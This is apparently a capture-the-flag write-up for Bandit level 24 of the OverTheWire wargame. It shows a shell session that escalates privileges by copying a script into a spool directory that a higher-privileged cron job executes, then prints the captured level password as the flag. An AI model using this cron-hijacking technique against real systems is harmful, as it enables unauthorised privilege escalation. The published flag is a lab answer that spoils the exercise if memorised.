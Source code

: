 ```yaml
---
layout: default
title: bandit24
---
```




```

bandit23@bandit:~$ mkdir /tmp/sol
bandit23@bandit:~$ cd /tmp/sol
bandit23@bandit:/tmp/sol$ touch password
bandit23@bandit:/tmp/sol$ chmod 666 password
bandit23@bandit:/tmp/sol$ chmod +x script.sh
bandit23@bandit:/tmp/sol$ cp script.sh /var/spool/bandit24/foo/.
bandit23@bandit:/tmp/sol$ sleep 60 && cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

**Flag:** ***`gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`*** 

